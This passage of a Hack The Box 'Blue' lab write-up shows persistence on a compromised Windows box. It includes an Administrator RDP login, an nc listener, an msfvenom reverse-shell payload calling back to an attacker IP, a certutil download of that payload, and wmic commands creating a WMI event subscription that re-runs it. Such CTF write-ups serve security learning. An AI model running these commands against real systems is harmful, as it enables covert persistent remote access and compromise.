 > **Attacker Machine**:

```bash
rdesktop 10.129.97.111 -u 'Administrator' -p 'ejfnIWWDojfWEKM' -d WORKGROUP
sudo rlwrap -cAr nc -nlvp 443
```

<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_48.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_49.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_50.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_51.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_52.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_53.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_54.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_55.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I know there are many ways to maintain persistence, but I am going to perform one last method and then in other **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** boxes look for new ways. Now I can use **Windows Management Instrumentation** (**WMI**) to execute malicious code when a defined event occurs, so with the help of `msfvenom` I generate a malicious **.exe binary** that is in charge of sending me a **Reverse Shell** and with `wmic` I subscribe an event so that when this event occurs the code is executed. I only have to wait a while and again I get the remote connection with `nc`.

> **Attacker Machine**:

```bash
# 7th Persistence Method
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.84 LPORT=443 -f exe -o malicious.exe
python3 -m http.server 80
```

> **Victime Machine**:

```cmd
certutil.exe -f -urlcache -split http://10.10.14.84/malicious.exe
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="persistence", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="persistence", ExecutablePath="C:\windows\temp\privesc\malicious.exe",CommandLineTemplate="C:\windows\temp\privesc\malicious.exe"
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name="persistence"", Consumer="CommandLineEventConsumer.Name="persistence""
```
